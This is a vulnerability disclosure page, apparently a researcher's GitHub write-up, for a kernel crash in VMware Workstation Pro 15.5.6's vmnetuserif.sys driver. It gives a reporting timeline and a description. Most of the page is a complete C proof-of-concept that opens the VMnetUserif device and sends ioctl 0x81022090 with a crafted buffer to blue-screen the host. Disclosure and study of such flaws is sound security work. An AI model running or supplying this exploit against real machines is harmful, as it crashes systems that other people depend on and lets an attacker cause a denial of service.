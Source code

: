 # VMware network application interface driver allows attackers to cause blue screen
These page show one of the practical vulns that Found. I reported these bugs to Security@vmware.com on On 27/8/2020 and now I have been told they have ignored the bugs and the details can be published.  I think it is a must to list the detailed infomation here.
## Time Line
 * 27/8/2020 Bugs were reported to Security@vmware.com.
 * 25/9/2020 Vmware got confirmation that the poc could cause system crash.
 * 26/9/2020 Vmware ignored the infomation for the poc required privilige to file "\\\\.\\VMnetUserif"
 * 12/11/2020 POC published.
 

 ## Abstract
 
* Name: VMware Workstation
* Date: 2020-8-27
* Reporter: Shuaibing Lu
* Vendor: http://www.vmware.com/
* Software Link: 3.https://my.vmware.com/cn/web/vmware/downloads/details?downloadGroup=WKST-1556-WIN&productId=799&rPId=47859
* Version: VMware Workstation Pro 15.5.6
### Description
Kernel module vmnetuserif.sys and vmnet.sys in the network application interface driver of VMware Workstation Pro 15.5.6 allows attackers to inject a crafted argument via the argument of an ioctl on device "\\\\.\\VMnetUserif" with the command **0x81022090** and cause a kernel crash.

To explore this vulnerability, some one must open the device file  "\\\\.\\VMnetUserif", call an ioctl system call on this device file with the command **0x81022090** and a crafted payload as the third argument.
### PoC
```
//Experimental environment: win10 x64

//Software official website:https://www.vmware.com/cn.html

//Software download address:http:https://my.vmware.com/cn/web/vmware/downloads/details?downloadGroup=WKST-1556-WIN&productId=799&rPId=47859

//Software version：15.5.6 build-16341506

//Affected Component:

//poc


#include<stdio.h>

#include <windows.h>

typedef struct _IO_STATUS_BLOCK {

    union {

        NTSTATUS Status;

        PVOID    Pointer;

    } DUMMYUNIONNAME;

    ULONG_PTR Information;

} IO_STATUS_BLOCK, * PIO_STATUS_BLOCK;



typedef NTSTATUS(NTAPI* NtDeviceIoControlFile)(

    HANDLE           FileHandle,

    HANDLE           Event,

    PVOID            ApcRoutine,

    PVOID            ApcContext,

    PIO_STATUS_BLOCK IoStatusBlock,

    ULONG            IoControlCode,

    PVOID            InputBuffer,

    ULONG            InputBufferLength,

    PVOID            OutputBuffer,

    ULONG            OutputBufferLength

    );

int main() {
    char  DeviceName[100] = "\\\\.\\VMnetUserif";
    long command = 0x81022090;
    HANDLE hDriver = CreateFileA(DeviceName,
        GENERIC_READ | GENERIC_WRITE,					// Open for reading/writing| GENERIC_WRITE
        FILE_SHARE_READ | FILE_SHARE_WRITE, 			// Allow Share
        NULL,											// Default security
        OPEN_EXISTING,									// Opens a file or device, only if it exists.
        0, //FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,	// Normal file
        NULL); //CreateFileA(DeviceName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

    ULONG dw;

    if (hDriver == INVALID_HANDLE_VALUE) {
        printf("Open device failed.\n");
        system("pause");

        return(-1);

    }

    LPCWSTR nt = L"ntdll";

    HMODULE hntdll = GetModuleHandle(nt);

    IO_STATUS_BLOCK p = {};

    NtDeviceIoControlFile tDeviceIoControl = (NtDeviceIoControlFile)GetProcAddress((HMODULE)hntdll, "NtDeviceIoControlFile");

    if (!tDeviceIoControl) {

        printf("[-] Fail to resolve ZwDeviceIoControlFile(0x%X)\n", GetLastError());

        system("pause");

    }

    printf("Start poc execution.\n");
    BYTE  brutebufInput[0x10000];
    BYTE  brutebufOutput[0x10000];
    BYTE  bufInput[0x10000];
    BYTE  bufOutput[0x10000];
    DWORD j = 100;
    DWORD nbBytes = 0;
    //LPVOID lpFakeBuffer = malloc(0x20000);

    memset(brutebufInput, 'A', 0x10000);

    //LPVOID Address = malloc(0x20000);

    memset(brutebufOutput, 'A', 0x10000);

    //tDeviceIoControl(hDriver, 0, 0, 0, &p, command, lpFakeBuffer, 0, (PVOID)Address, 0);
    DeviceIoControl(hDriver,command,&brutebufInput,1,&brutebufOutput,1,&nbBytes,NULL);
    


    return 0;

}
```
### References

CNVD: https://www.cnvd.org.cn/flaw/show/CNVD-2020-53154

### Screenshot

![image](https://github.com/datadancer/WinSysVuln/blob/main/VMnetUserif.png)
